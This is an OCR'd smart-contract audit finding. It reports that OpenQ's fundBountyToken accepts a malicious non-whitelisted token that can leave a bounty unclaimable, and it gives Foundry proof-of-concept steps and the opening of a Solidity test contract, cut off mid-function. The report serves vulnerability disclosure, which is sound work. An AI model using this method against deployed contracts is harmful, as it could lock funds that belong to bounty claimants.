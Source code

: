 slowfi

medium

# Funders can fund with an evil token and make bounty not claimable

## Summary

The implementation of the `fundBountyToken` function from the `DepositManagerV1.sol` contract allows random tokens to fund a bounty of the limit of the whitelist is not reached yet.

This can have serious implications and it is possible to fund a bounty with a malicious token and make the bounty not claimable.

## Vulnerability Detail

As opossed to the Nft receive function the `fundBountyToken`  allows token  that are not whitelisted fund the bounty. However a malicious token can be introduced to make the bounty not claimable.

In order to execute the proof of concept it is required to follow the next steps:

1. Create and empty forge directory
2. Install the openq repo as a library inside the lib folder
3. Install other necessary dependencies such as: forge-std, openzeppelin and openzeppelin upgradable.
4. Inside the folder lib/openq/contracts/Mocks  create the TestEvilToken.sol contract.
5. Inside the test folder create the two contracts BountyTester.t.sol and deployer.t.sol
6. Run the PoC with `forge test --match-test testEvilToken`

BountyTester.t.sol
```solidity
pragma solidity 0.8.17;

import "./deployer.t.sol";
import "forge-std/Test.sol";
//import "openq/Library/OpenQDefinitions.sol";

contract BountyTester is Deployer, Test {

    address user1 = vm.addr(0x02);
    address user2 = vm.addr(0x02222);
    string _issuerExternalUserId = "slowfi";
    string bountyId = "superId";

    function setUp() public {
        deployEnv();
    }

    function initializeAtomicBounty() internal returns(address bounty) {
        string memory organization = "hardDickCafe";
            
        bool _hasFundingGoal =  true;
        address _fundingToken = address(0);
        uint256 _fundingGoal = type(uint256).max;
        bool _invoiceRequired = false;
        bool _kycRequired = false;
        bool _supportingDocumentsRequired = false;

        bytes memory data = abi.encode(_hasFundingGoal, _fundingToken, _fundingGoal, _invoiceRequired, _kycRequired, _supportingDocumentsRequired, _issuerExternalUserId, _issuerExternalUserId, _issuerExternalUserId);

```